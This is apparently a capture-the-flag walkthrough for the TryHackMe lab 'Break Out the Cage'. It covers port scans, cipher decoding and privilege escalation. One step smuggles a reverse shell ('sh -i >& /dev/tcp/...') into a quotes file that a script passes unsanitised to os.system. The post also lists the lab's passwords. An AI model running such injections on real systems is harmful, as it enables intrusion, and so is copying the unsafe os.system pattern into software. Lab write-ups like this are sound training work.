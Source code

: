 ```yaml
---
title: Walkthrough - Break Out the Cage
published: true
---
```


Python, Steg, Rot13, Mail. Help Cage bring back his acting career and investigate the nefarious goings on of his agent!

[https://tryhackme.com/room/breakoutthecage1](https://tryhackme.com/room/breakoutthecage1)

* * *

## Notes

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             396 May 25  2020 dad_tasks
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.2.127.225
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dd:fd:88:94:f8:c8:d1:1b:51:e3:7d:f8:1d:dd:82:3e (RSA)
|   256 3e:ba:38:63:2b:8d:1c:68:13:d5:05:ba:7a:ae:d9:3b (ECDSA)
|_  256 c0:a6:a3:64:44:1e:cf:47:5f:85:f6:1f:78:4c:59:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Nicholas Cage Stories
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

In the FTP server we find ``dad_tasks`` which contains a base64 encoding. decoded it doesnt mean much to us yet, saving this here for later.

```
Qapw Eekcl - Pvr RMKP...XZW VWUR... TTI XEF... LAA ZRGQRO!!!!
Sfw. Kajnmb xsi owuowge
Faz. Tml fkfr qgseik ag oqeibx
Eljwx. Xil bqi aiklbywqe
Rsfv. Zwel vvm imel sumebt lqwdsfk
Yejr. Tqenl Vsw svnt "urqsjetpwbn einyjamu" wf.

Iz glww A ykftef.... Qjhsvbouuoexcmvwkwwatfllxughhbbcmydizwlkbsidiuscwl
```

- ``gobuster dir -u http://10.10.107.176/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 100 --no-error``

```
/images               (Status: 301) [Size: 315] [--> http://10.10.107.176/images/]
/html                 (Status: 301) [Size: 313] [--> http://10.10.107.176/html/]  
/scripts              (Status: 301) [Size: 316] [--> http://10.10.107.176/scripts/]
/contracts            (Status: 301) [Size: 318] [--> http://10.10.107.176/contracts/]
/auditions            (Status: 301) [Size: 318] [--> http://10.10.107.176/auditions/]
```

- ``wget -nd -r -l 2 -A jpg,jpeg,png,gif http://10.10.231.206/images``

Not much in all os these directories i tried stegseek on all the images but cant find a password, and still unable to crack the dad_tasts, but there is a mp3 file to look at in `/auditions/`.

![0xskar](/assets/break-out-the-cage01.png)

After messing with audacity settings it reveals a hidden message "namelesstwo". This is the key to the vigenere cipher.

```
Dads Tasks - The RAGE...THE CAGE... THE MAN... THE LEGEND!!!!
One. Revamp the website
Two. Put more quotes in script
Three. Buy bee pesticide
Four. Help him with acting lessons
Five. Teach Dad what "information security" is.

In case I forget.... Mydadisghostrideraintthatcoolnocausehesonfirejokes
```

* * * 

## What is Weston's password?

- weston:Mydadisghostrideraintthatcoolnocausehesonfirejokes

* * * 

## What's the user flag?

```
find / -type f -group 1000 2>/dev/null
/opt/.dads_scripts/spread_the_quotes.py
/opt/.dads_scripts/.files/.quotes
```

```
weston@national-treasure:/$ cat /opt/.dads_scripts/spread_the_quotes.py 
#!/usr/bin/env python

#Copyright Weston 2k20 (Dad couldnt write this with all the time in the world!)
import os
import random

lines = open("/opt/.dads_scripts/.files/.quotes").read().splitlines()
quote = random.choice(lines)
os.system("wall " + quote)
```

```
weston@national-treasure:/tmp$ sudo -l
[sudo] password for weston: 
Matching Defaults entries for weston on national-treasure:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User weston may run the following commands on national-treasure:
    (root) /usr/bin/bees
```

Not able to get much more to work here, looking at ``spread_the_quotes.py`` it is being run by cage, but we dont have permissions to write to it, however we do have permissions to write to ``/opt/.dads_scripts/.files/.quotes``

- ``echo "quote;sh -i >& /dev/tcp/10.2.127.225/6666 0>&1" > /opt/.dads_scripts/.files/.quotes``
- now that we are connected we can find the user flag in the home directory. 

* * * 

## What's the root flag?

- Looking at the backup emails there is a code "haiinspsyanileph" and a hint "face"?
- This is another Vigenere Cipher the key is face
- ``cageisnotalegend``
- we can ``su`` to root. and find the flag inside roots email backups

* * * 

